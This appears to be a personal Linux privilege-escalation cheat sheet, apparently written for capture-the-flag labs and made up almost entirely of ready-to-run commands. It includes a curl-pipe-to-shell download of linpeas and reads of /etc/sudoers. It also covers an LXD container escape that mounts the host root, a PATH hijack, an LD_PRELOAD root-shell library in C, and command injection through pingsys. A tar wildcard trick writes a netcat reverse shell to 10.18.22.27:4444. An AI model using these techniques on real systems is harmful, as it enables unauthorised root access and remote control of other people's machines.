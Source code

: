 # information gathering

```bash
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
cat /proc/version
cat /etc/issue
cat /etc/sudoers
ps aux | grep cron
ps
env
ip route
uname -a
netstat # -at -l -t -tp -i
netstat -tupln | grep LISTEN
ss -atur
find / -writable 2>/dev/null
find / -mtime 10 #find files that were modified in the last 10 days
find . -name flag.txt
find / -type d -name config #find the directory named config under “/”
find / -type f -user <user> 2>/dev/null #find files owned by user
find / -type f -perm /4000 2>/dev/null
find / -type f -group <group> -exec ls -l {} + 2>/dev/null
getcap -r / 2>/dev/null
cat /etc/exports #file sharing
nmap --script=vuln <ip>
cat /proc/1/cgroup #if u in docker
cat /etc/exports
```
## quik one-line bash script with colorful output to enumerate linux machine

```bash
for cmd in "history" "id" "echo $PATH" "cat /etc/crontab" "sudo -V " "cat /proc/version" "cat /etc/issue" "cat /etc/sudoers" "cat /etc/sudoers.d" "env" "ip route" "uname -a" "netstat -tupln | grep LISTEN" "find / -type f -perm /4000 2>/dev/null" "getcap -r / 2>/dev/null" "cat /etc/exports" "cat /proc/1/cgroup"; do echo  "\n\033[1;34mCommand: $cmd\033[0m"; echo "\033[1;32m$(eval $cmd)\033[0m"; echo  "\033[1;33m\n===================================================================================================\n==================================================================================================="; done
```
---
# LXD container exploitation

```bash
wget archive
lxc image import ./lxd.tar.gz --alias myimage
lxc image list
lxc init myimage ignite -c security.privileged=true # If not working, use FINGERPRINT
lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
lxc start ignite
lxc exec ignite /bin/sh
```

```sh
Would you like to use LXD clustering? (yes/no) [default=no]: no
Do you want to configure a new storage pool? (yes/no) [default=yes]: yes
Name of the new storage pool [default=default]: 
Name of the storage backend to use (btrfs, dir, lvm) [default=btrfs]: dir
Would you like to connect to a MAAS server? (yes/no) [default=no]: no
Would you like to create a new network bridge? (yes/no) [default=yes]: yes
What should the new bridge be called? [default=lxdbr0]: 
What IPv4 address should be used? (CIDR subnet notation, “auto” or “none”) [default=auto]: 
What IPv6 address should be used? (CIDR subnet notation, “auto” or “none”) [default=auto]: none
Would you like a YAML "lxd init" preseed to be printed? (yes/no) [default=no]: 
ubuntu@ajkavanagh-bionic-test:~$ lxc storage list
```
---
# with doas

```bash
doas -u root openssl enc -in file
doas -u root /bin/bash
```
---
# with npm -u

```bash
mkdir ~/tmp
echo '{"scripts": {"preinstall": "/bin/sh"}}' > ~/tmp/package.json
sudo -u serv-manage /usr/bin/npm -C ~/tmp/ --unsafe-perm i
```
---
# PATH

```bash
echo /bin/sh > curl
chmod 777 curl
export PATH=/tmp:$PATH
./app_that_calls_curl
```

---
# tar

```bash
cat > /home/andre/backup/rev << EOF
#!/bin/bash
rm /tmp/f
mkfifo /tmp/f
cat /tmp/f|/bin/sh -i 2>&1|nc 10.18.22.27 4444 >/tmp/f
EOF
echo "" > "/home/andre/backup/--checkpoint=1"
echo "" > "/home/andre/backup/--checkpoint-action=exec=sh rev"
chmod +x rev
```
---
# env_keep += LD_PRELOAD

```bash
cd /tmp
cat > shell.c << EOF
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/sh");
}
EOF
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
sudo LD_PRELOAD=/tmp/shell.so /usr/bin/sky_backup_utility
```
---
# doas
```
doas rsync -e 'sh -c "sh 0<&2 1>&2"' 127.0.0.1:/dev/null
```
---
# pingsys
```
/usr/bin/pingsys '127.0.0.1; /bin/sh'
```
---
# links
* [linPeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)
* [linEnum](https://github.com/rebootuser/LinEnum)
* [LES](https://github.com/mzet-/linux-exploit-suggester)
* [Linux Smart Enumeration](https://github.com/diego-treitos/linux-smart-enumeration)
* [linux Priv Checker](https://github.com/linted/linuxprivchecker)
* [Linux Kernel CVEs](https://www.linuxkernelcves.com/cves)
* [GTFOBins (unix)](https://gtfobins.github.io/)
* [g0tmi1k priv esc linux](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)
* [linux backdoors](./linux_backdoors.md)
- [gtfo bins script](https://github.com/Frissi0n/GTFONow)